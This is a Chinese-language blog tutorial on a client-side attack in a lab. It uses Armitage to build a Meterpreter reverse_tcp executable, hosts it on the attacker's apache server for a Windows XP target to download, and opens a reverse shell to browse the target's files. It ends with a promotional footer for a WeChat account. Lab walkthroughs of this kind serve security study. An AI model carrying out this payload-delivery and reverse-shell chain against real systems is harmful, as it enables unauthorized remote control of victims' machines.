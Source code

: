 ```yaml
---
layout: post
category: binghe-code-hack
title: 使用Armitage进行客户端攻击
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: 使用Armitage进行客户端攻击
lock: need
---
```


# 使用Armitage进行客户端攻击

攻击机 Kali 192.168.175.128

靶机 WinXP 192.168.175.130

### 查找攻击载荷 

在Armitage的左上角依次选择payload->windows->meterpreter->reverse_tcp

### 设置攻击载荷

这里，需要双击reverse_tcp，之后，会弹出如下对话框：

![img](https://img-blog.csdnimg.cn/20190128134927500.png)

这里，设置我们的LHOST和LPORT,并将Output设置为exe,最后单击Launch按钮导出生成的exe文件。

![img](https://img-blog.csdnimg.cn/20190128134940195.png)

如下：

![img](https://img-blog.csdnimg.cn/20190128134952345.png)

点击保存按钮，将test.exe保存到/root目录下。

### 移动test.exe到apache目录下

```
mv test.exe /var/www/html/
```

此时，输入如下命令启动apache

```
service apache2 start
```

### 在靶机上下载test.exe

在靶机的浏览器地址栏输入：http://192.168.175.128/test.exe下载test.exe文件

![img](https://img-blog.csdnimg.cn/20190128135053701.png)

### 创建监听器

依次单击Armitage->Listeners->Reverse选项：

![img](https://img-blog.csdnimg.cn/20190128135110183.png)

点击后弹出一个对话框，如下：

![img](https://img-blog.csdnimg.cn/2019012813512652.png)

这里，我们将端口设置为8888,将类型设置为meterpreter，然后点击Start Listener

效果如下图：

![img](https://img-blog.csdnimg.cn/2019012813514745.png)

### 运行exe文件

在靶机上双击test.exe

![img](https://img-blog.csdnimg.cn/20190128135206863.png)

### 查看结果

此时，切换到Armitage，我们在输出日志中看到打开了一个Meterpreter session,如下图：

![img](https://img-blog.csdnimg.cn/20190128135222423.png)

同时，可以看到靶机图标有红色闪电包围，说明我们成功拿下了靶机的Meterpreter。

### 查看靶机的目录结构

右键靶机图标->Meterpreter->Explore->Browse Files

![img](https://img-blog.csdnimg.cn/20190128135255860.png)

如下图所示：

![img](https://img-blog.csdnimg.cn/20190128135310495.png)

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)